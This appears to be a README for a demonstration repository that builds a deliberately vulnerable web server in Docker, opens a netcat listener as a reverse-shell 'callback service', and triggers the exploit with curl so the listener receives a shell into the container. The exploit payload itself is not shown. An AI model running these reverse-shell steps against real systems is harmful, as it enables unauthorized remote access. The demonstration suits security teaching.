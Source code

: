 # README.md
Demonstrates getting access into a container

Run the stupid webserver
```
docker build -t reverseshell . 
docker run --rm -p 8080:8080 reverseshell
```

Run the callback service
```
nc -l -p 8888 -vvv 
```

Invoke the exploit against the web server
```
curl localhost:8080
```

Now go back to the shell running the callback and list the contents. 

```
apt install curl
```

## Troubleshooting  
Test with a simple webservice  
```
docker run -it --rm -p 8080:8080 --entrypoint /bin/bash reverseshell
echo -e "HTTP/1.1 200 OK\n\n $(date)" | nc -l -p 8080 -q 1
curl localhost:8080
```

```
tmuxinator
tmuxinator stop reverseshell
```